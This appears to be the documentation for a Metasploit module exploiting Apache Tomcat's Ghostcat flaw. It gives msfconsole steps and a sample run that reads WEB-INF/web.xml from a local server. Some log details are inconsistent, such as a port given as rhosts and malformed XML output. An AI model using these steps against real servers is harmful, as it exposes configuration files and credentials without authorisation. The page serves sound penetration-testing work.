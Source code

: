## Vulnerable Application

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF` 
directories and any other location that can be reached via ServletContext.getResourceAsStream() on Apache Tomcat servers. 
It also allows the attacker to process any file in the web application as JSP.


## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```exploit/windows/http/tomcat_ghostcat```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```

## Options

## Scenarios

### Apache Tomcat on Windows 10.0.16299.125

  ```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use exploit/windows/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rhosts 8009
  rhosts => 8009
  resource (tomcat_ghostcat.rb)> set lhost 127.0.0.1
  lhost => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml
  
  resource (tomcat_ghostcat.rb)> exploit
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium
   
    Portions copyright 2011-2013 The MITRE Corporation
   
    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at
   
      http://www.apache.org/licenses/LICENSE-2.0
   
    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->  
 
  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee 
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat 
 </description>

 <web-app>
[*] Auxiliary module execution completed
  
  ```
